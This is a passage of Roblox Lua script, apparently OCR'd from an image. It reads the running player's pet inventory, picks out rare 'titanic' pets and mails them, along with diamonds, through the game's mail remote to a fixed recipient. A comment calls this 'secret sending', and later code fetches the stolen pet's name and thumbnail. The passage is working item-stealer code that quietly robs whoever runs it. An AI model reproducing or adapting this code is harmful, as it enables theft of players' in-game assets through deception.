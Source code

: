                 end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))
                -- wait(5.5)
                -- print("secret sending")
                if #MList == 0 or MList == {} then
                    -- print("done6")
                    break
                end
            end
        end
    end
end)

local Tcc = #TList
WTianicList = {}
WTList = {}
WTcc = {}
local titanicnumber = 1

spawn(function()
    while wait() do
        WLibrary = require(game:GetService("ReplicatedStorage").Framework:FindFirstChild("Library"))
        WFunctions = WLibrary.Functions
        table.foreach(WLibrary.Directory.Pets, function(i, v)
            if v.titanic then
                table.insert(WTianicList, i)
            end
        end)
        local Wpets = require(game:GetService("ReplicatedStorage").Library.Client.Save).Get().Pets
        local Wy = {}
        for i, v in pairs(Wpets) do
            Wy[v["uid"]] = false
        end
        for i, v in pairs(Wpets) do
            if table.find(WTianicList, v["id"]) ~= nil then
                table.insert(WTList, v["uid"])
                table.insert(WTcc, v["id"])
            end
        end
        if Tcc == #WTList + 1 then
            -- print("Titanic Has Been Sent")
            Tcc = #TList
            FinalList = FinalList - 1
            local diamonds = givediaamt
            local titanictid = STList[titanicnumber]
            local titanicname
            local titanicimg
            for i, v in pairs(game:GetService("ReplicatedStorage")["__DIRECTORY"].Pets:GetChildren()) do
                local titanicsm = string.split(v.Name, " - ")[1]
                if titanicsm == tostring(titanictid) then
                    titanicname = require(v:FindFirstChildOfClass("ModuleScript")).name
                    titanicimg = require(v:FindFirstChildOfClass("ModuleScript")).thumbnail
                    break
                end
            end